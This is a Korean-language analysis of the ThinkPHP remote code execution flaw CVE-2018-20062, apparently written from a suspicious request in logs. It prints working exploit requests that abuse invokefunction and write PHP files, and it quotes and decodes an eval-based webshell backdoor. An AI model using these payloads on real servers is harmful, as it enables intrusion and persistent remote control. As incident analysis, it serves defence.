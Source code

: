 > ✅ **CVE-2018-20062**
이는 **ThinkPHP 프레임워크의 심각한 원격 코드 실행 취약점(RCE)** 을 이용한 공격입니다.
해당 취약점은 HTTP Request를 처리하기 위해 controller를 호출할 때,
library/think/ 에서 사용자 입력값을 적절하게 검증하지 않아서 공격자가 "" 기호를 사용하여 class method를 호출하여 공격합니다.


### 📌 PoC 구조 

```http
GET /index.php?s=/index/\think\app/invokefunction
    &function=call_user_func_array
    &vars[0]=phpinfo
    &vars[1][]=1
```

혹은

```http
&vars[0]=file_put_contents
&vars[1][]=shell.php
&vars[1][]=<?php system($_GET['cmd']); ?>
```

## 🚨 공격 의심 쿼리 분석

```plaintext
/index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=file_put_contents
&vars[1][]=baker.php
&vars[1][]=<?php class GcE493F6 { public function __construct($Hy5F7){ @eval("/*ZBc6469V18*/".$Hy5F7.""); }}new GcE493F6($_REQUEST['pass']);echo error303?>
```

### 🔍 주요 구성요소:

| 파라미터                            | 의미                                            |
| ------------------------------- | --------------------------------------------- |
| `function=call_user_func_array` | PHP의 콜백 함수 호출 (ThinkPHP 같은 프레임워크에서 우회 실행에 사용) |
| `vars[0]=file_put_contents`     | 파일을 쓰기 위한 PHP 함수 지정                           |
| `vars[1][]=baker.php`           | 업로드할 파일 이름 (`baker.php`)                      |
| `vars[1][]=...`                 | 파일 내용 – **웹쉘 코드 포함**                          |

---

## 🧨 포함된 악성 코드 (웹쉘)

### 디코딩된 웹쉘 코드:

```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval("/*ZBc6469V18*/" . $Hy5F7 . "");
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```

### 기능 요약:

* `$_REQUEST['pass']` 파라미터로 전달된 코드를 `eval()`로 실행
* PHP 파일 `baker.php`로 저장됨
* 외부에서 명령어를 실행 가능한 **백도어 웹쉘**이 생성됨
* `echo error303`는 단순 응답 확인용 (공격자가 요청 성공 여부 확인하는 방식)

---

### 🔍 요약

| 항목          | 설명                                                                                 |
| ----------- | ---------------------------------------------------------------------------------- |
| **취약점 ID**  | CVE-2018-20062                                                                     |
| **영향받는 버전** | ThinkPHP 5.0.23 이하 버전                                                              |
| **취약점 종류**  | 원격 코드 실행 (RCE)                                                                     |
| **공격 원인**   | `invokeFunction` 엔드포인트가 `call_user_func_array()`를 필터 없이 호출 가능                      |
| **공격 방식**   | `function`과 `vars[]` 파라미터를 통해 **임의의 PHP 함수 호출 가능**, 예: `eval`, `file_put_contents` |
| **공격 결과**   | 원격에서 PHP 웹쉘 업로드 및 명령 실행 가능                                                         |

